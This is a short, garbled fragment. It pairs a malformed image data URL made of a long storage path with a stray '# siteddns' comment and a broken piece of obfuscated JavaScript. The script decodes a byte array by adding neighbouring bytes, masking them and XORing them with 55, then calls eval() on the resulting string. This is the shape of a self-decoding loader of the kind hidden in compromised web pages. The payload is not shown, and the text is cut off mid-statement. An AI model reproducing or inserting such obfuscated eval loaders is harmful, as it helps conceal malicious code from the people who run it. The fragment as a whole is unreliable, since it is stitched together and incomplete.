  # siteddns
44)break;bq[dq]=(bq[dq]+bq[dq+1])&0xff;bq[dq]=bq[dq]^55;dq++;}";eval(dq);dq="dq=43;for(;;dq--){if(dq
